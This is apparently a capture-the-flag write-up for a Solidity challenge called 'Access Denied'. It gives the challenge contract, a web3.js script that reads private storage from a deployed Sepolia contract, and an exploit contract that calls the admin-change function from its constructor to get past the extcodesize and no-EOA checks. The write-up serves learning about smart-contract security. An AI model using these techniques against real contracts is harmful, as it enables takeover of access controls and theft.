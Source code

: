 # Access Denied

## Challenge

We get contract: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract access_denied {
    string private data; 
    address admin;

    constructor(string memory _data) {
        data = _data;
        admin = msg.sender;
    }

    function isContract(address addr) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(addr)
        }
        return size > 0;
    }

    modifier noEOA {
        require (msg.sender != tx.origin, "No-EOA allowed!");
        _;
    }

    modifier noContract {
        require (!isContract(msg.sender), "No-contract allowed either!");
        _;
    }

    function changeAdmin(address _addr) external noEOA noContract {
        _changeAdmin(_addr);
    }

    function _changeAdmin(address _addr) private {
        require(msg.sender==_addr);
        admin = _addr ;

    }
    
    function getflag() public view returns (string memory) {
        require(msg.sender == admin, "You are not admin yet!");
        return(data);
    }
}
```

Our goal is to retrieve the flag.

## Solution

There are 2 ways to solve this challenge:

1. The easy way (probably not intended)

You can just read out the private flag variable using web3.js

```js
// Description:
// A short script that lets you read out the storage of a smart contract

// How to use:
// 1. Change the RPC URL to the one of the network you're using
// 2. Replace the first parameter of getStorageAt with the address of the contract you're targeting
// 3. Change the second parameter to the storage slot you want to read out.

// Import the web3.js library
const Web3 = require('web3');

// Set up the web3 provider using the RPC URL and chain ID of the custom blockchain
const web3 = new Web3(new Web3.providers.HttpProvider('https://rpc2.sepolia.org	'));

// Get the storage value at a specific address and position
async function getStorageAt(address, position) {
  try {
    const storageValue = await web3.eth.getStorageAt(address, position);
    console.log(`Storage value at address ${address} and position ${position}: ${storageValue}`);
  } catch (error) {
    console.error(error);
  }
}

// Call the getStorageAt function with a specific address and position
getStorageAt('0x65E7Fe0c5112ae242732786eEd8dCc31e27131d7', 0);
```

running this yields us the flag "flag{7h3_Prof3ss0r}"

2. The "hard way"

The contract checks if we are a contract and if we have a codesize of 0. We can just circumvent this by doing everythign in the constructor. I also set the flag to private so other people can't directly call my contract and get a flag.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Chal.sol";

contract exploit {
    address owner;
    string private flag;

    constructor(address target)
    {
        owner = msg.sender;
        access_denied(target).changeAdmin(address(this));
        flag = access_denied(target).getflag();
    }


    function getFlag() public view returns(string memory)
    {
        require (msg.sender == owner);
        return flag;
    }
}
```

Then i just ran this with the address and got the flag.

